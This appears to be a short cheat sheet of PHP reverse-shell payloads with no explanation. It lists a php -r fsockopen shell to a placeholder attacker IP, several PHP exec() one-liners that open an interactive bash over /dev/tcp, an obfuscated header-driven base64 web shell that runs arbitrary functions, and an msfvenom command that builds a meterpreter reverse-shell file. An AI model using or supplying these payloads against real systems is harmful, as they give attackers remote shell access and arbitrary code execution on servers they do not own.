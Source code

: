 ### Basic PHP Shell
```
php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'
```
#### PHP One liners
```
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/"ATTACKING IP"/443 0>&1'");?>
```
#### Another one
```
<?php
exec("/bin/bash -c 'bash -i > /dev/tcp/ATTACKING-IP/1234 0>&1'");
```
#### Base64 PHP Shell
```
<?=$x=explode('~',base64_decode(substr(getallheaders()['x'],1)));@$x[0]($x[1]);
```

#### Msfvenom 
```
msfvenom -p php/meterpreter_reverse_tcp LHOST=ATTACKING-IP LPORT=443 -f raw > reverse-shell.php
```



